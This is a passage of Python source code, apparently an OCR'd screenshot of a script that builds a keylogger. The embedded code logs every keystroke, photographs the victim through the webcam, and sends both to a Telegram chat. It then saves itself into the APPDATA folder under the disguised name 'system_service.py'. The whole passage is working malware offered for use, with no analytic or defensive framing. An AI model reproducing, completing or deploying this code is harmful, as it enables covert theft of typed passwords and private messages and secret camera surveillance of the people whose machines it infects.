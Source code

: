 ```python
    '            response = requests.post(url, files={"photo": f}, data={"chat_id": TELEGRAM_CHAT_ID})\n'
    '            if response.status_code == 200:\n'
    '                log_to_file(f"تم إرسال الصورة: {img_path}")\n'
    '            else:\n'
    '                log_to_file(f"فشل إرسال الصورة: HTTP {response.status_code}")\n'
    '    except Exception as e:\n'
    '        log_to_file(f"خطأ في إرسال الصورة: {str(e)}")\n\n'
    'def capture_camera():\n'
    '    try:\n'
    '        cap = cv2.VideoCapture(0)\n'
    '        ret, frame = cap.read()\n'
    '        if ret:\n'
    '            img_path = os.path.join(tempfile.gettempdir(), "keylogger_capture.jpg")\n'
    '            cv2.imwrite(img_path, frame)\n'
    '            send_photo_to_telegram(img_path)\n'
    '            os.remove(img_path)\n'
    '        else:\n'
    '            log_to_file("فشل التقاط الصورة: لا إطار متاح")\n'
    '        cap.release()\n'
    '    except Exception as e:\n'
    '        log_to_file(f"خطأ في التقاط الصورة: {str(e)}")\n\n'
    'def on_key_press(event):\n'
    '    global logged_keys\n'
    '    try:\n'
    '        key_name = event.name\n'
    '        if not key_name:\n'
    '            log_to_file("اسم المفتاح فارغ")\n'
    '            return\n'
    '        if len(key_name) > 1:\n'
    '            if key_name == "space":\n'
    '                logged_keys += " "\n'
    '            elif key_name == "enter":\n'
    '                logged_keys += "\\n"\n'
    '            elif key_name == "backspace":\n'
    '                logged_keys = logged_keys[:-1] if logged_keys else ""\n'
    '            else:\n'
    '                logged_keys += f"[{key_name}]"\n'
    '        else:\n'
    '            logged_keys += key_name\n'
    '        if len(logged_keys) >= 100:\n'
    '            message = f"[تتبع الكيبورد من {DEVICE_NAME}]:\\n{logged_keys}"\n'
    '            send_to_telegram(message)\n'
    '            capture_camera()\n'
    '            logged_keys = ""\n'
    '    except Exception as e:\n'
    '        log_to_file(f"خطأ في تتبع الكيبورد: {str(e)}")\n'
    '        send_to_telegram(f"⚠️ خطأ في تتبع الكيبورد على {DEVICE_NAME}: {str(e)}")\n\n'
    'def start_keylogger():\n'
    '    try:\n'
    '        log_to_file("بدأ الكيلوجر")\n'
    '        send_to_telegram(f"✅ الكيلوجر يعمل الآن على {DEVICE_NAME}")\n'
    '        keyboard.on_press(on_key_press)\n'
    '        while True:\n'
    '            time.sleep(10)\n'
    '    except Exception as e:\n'
    '        log_to_file(f"فشل تشغيل الكيلوجر: {str(e)}")\n'
    '        send_to_telegram(f"⚠️ فشل تشغيل الكيلوجر على {DEVICE_NAME}: {str(e)}")\n\n'
    'if __name__ == "__main__":\n'
    '    start_keylogger()\n'
)

keylogger_path = os.path.join(os.environ["APPDATA"], "system_service.py")
```